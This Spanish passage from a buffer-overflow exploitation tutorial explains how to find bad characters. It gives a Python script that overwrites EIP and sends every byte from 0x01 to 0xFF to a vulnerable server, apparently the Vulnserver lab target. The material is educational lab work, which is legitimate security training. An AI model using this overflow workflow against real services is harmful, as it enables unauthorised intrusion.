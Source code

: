 El procedimiento para identificar estos caracteres implica pasar todos los valores hexadecimales posibles (de **0x01** a **0xFF**) a través del programa para observar si alguno causa problemas.

### Modificación del Script

Para comenzar, es necesario modificar el script que sobrescribió el **EIP** en la etapa anterior, agregando una secuencia de todos los caracteres hexadecimales posibles (exceptuando el byte nulo, que se conoce como problemático). Esta secuencia se añadirá después de los bytes que sobrescriben el **EIP**.

El script modificado debería verse así:

```python
#!/usr/bin/python
import sys, socket
from time import sleep

badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
shellcode = "A" * 2003 + "B" * 4 + badchars
ip_address = 'reemplazar por la ip del target'

try:
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((ip_address, 9999))
    s.send(('TRUN /.:/' + shellcode).encode('utf-8'))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

### Ejecución del Script

Una vez que el script ha sido modificado, se ejecuta de la misma manera que antes, con **Immunity Debugger** corriendo y adjuntado al servidor vulnerable. Al revisar el **dump** en **Immunity**, se debe observar la secuencia de bytes enviada, comenzando desde **0x01** y continuando hasta **0xFF**.
